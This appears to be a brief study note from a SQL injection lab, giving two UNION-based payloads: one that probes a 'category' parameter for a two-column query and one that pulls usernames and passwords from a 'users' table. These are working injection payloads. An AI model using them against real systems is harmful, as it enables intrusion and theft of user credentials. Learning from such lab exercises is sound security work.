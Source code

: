 ```yaml
---
dg-publish: true
---
```







- Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+NULL,'abc'--
```

- Retrieve the contents of the `users` table:
    - `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`